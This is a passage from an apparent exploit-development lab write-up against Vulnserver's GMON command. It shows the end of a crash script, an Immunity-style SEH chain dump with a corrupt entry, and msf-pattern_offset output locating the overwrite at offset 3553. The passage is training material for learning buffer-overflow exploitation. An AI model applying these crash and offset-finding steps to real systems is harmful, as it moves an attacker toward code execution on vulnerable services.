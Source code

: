 ```python

s.close()
print("Done!")
```

Run this script against the server.

Once the server is in the crashed state, open the SEH chain window again with `<Alt>` + `<S>`

![SEH Chain offset](/assets/img/vulnserver_gmon_20_seh_offset.png)


```bash
SEH chain of thread 00000F2C
Address    SE handler
--------   -----------------------
00DDFFCC   6F45346F
45336F45   *** CORRUPT ENTRY ***
```

```bash
msf-pattern_offset -l 4096 -q 6F45346F

[*] Exact match at offset 3553
```
